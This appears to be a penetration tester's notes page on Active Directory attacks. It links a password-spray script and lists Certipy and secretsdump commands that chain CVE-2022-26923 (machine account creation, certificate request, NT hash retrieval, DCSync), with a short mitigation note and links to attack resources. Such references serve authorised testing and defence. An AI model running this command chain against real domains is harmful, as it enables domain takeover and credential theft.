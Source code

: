## Domain Password Spray script

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

## AD CS - Certificate Services



{% code overflow="wrap" fullWidth="true" %}
```sh
https://github.com/ly4k/Certipy
# Create a machine account
certipy account create -u username@domain -p password -user <Account Name> -dns <dNSHostName> [-dc-ip <DC IP>]
# Request a new certificate
certipy req -u username@domain -p password -ca <CA Name> -template Machine
# Authentication to receive the certificate file
certipy auth -pfx dc.pfx -dc-ip <DC IP>
# The NT Hash of the dc$ computer object is returned
# Finally, DCSync attack
secretsdump 'domain/DC$dc.domain' -hashes :<NT Hash>

# Certipy implements more domain escalation techniques
https://github.com/ly4k/Certipy#domain-escalation

# Mitigating CVE-2022-26923
The May 2022 Security Update https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923 for Windows systems includes a patch
This effectively prevents the basic attack described above, where a new machine is added to the domain by an unprivileged user, which automatically inherits “Validated write to DNS host name” rights to the account. However, a user with higher privileges (like GenericWrite) on any machine account would still be able to add a custom dNSHostName value.
```
{% endcode %}

## Vulnerability Scanner

[https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn)

## Tools

```
https://github.com/logangoins/Cable/
```

## Resources

| [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md) |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [https://www.puckiestyle.nl/top-16-active-directory-vulnerabilities/](https://www.puckiestyle.nl/top-16-active-directory-vulnerabilities/)                                                                                                                   |
| [https://www.puckiestyle.nl/domain-attacks/](https://www.puckiestyle.nl/domain-attacks/)                                                                                                                                                                     |
